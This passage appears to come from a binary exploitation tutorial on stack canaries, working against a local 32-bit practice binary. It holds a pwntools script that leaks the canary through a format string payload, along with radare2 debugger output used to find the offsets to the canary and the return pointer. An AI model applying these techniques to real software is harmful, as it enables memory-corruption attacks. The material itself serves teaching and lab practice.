 Now let's just automate grabbing the canary with pwntools:

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```bash
$ python3 exploit.py 
[+] Starting local process './vuln-32': pid 14019
[*] b'Leak me\n'
[+] Canary: 0xcc987300
```

Now all that's left is to work out what the offset is until the canary, and then the offset from after the canary to the return pointer.

```bash
$ r2 -d -A vuln-32
[0xf7fbb0b0]> db 0x080491d7
[0xf7fbb0b0]> dc
Leak me
%23$p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
[...]
0xffea8af0  0x00000001 0xffea8bc4 0xffea8bcc 0xe1f91c00
```

We see the canary is at `0xffea8afc`. A little later on the return pointer (we assume) is at `0xffea8b0c`. Let's break just after the next `gets()` and check what value we overwrite it with (we'll use a De Bruijn pattern).

```
[0x080491d7]> db 0x0804920f
[0x080491d7]> dc
0xe1f91c00
Overflow me
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA
hit breakpoint at: 804920f
[0x0804920f]> pxw @ 0xffea8afc
0xffea8afc  0x41574141 0x41415841 0x5a414159 0x41614141  AAWAAXAAYAAZAAaA
0xffea8b0c  0x41416241 0x64414163 0x41654141 0x41416641  AbAAcAAdAAeAAfAA
```

Now we can check the canary and EIP offsets:
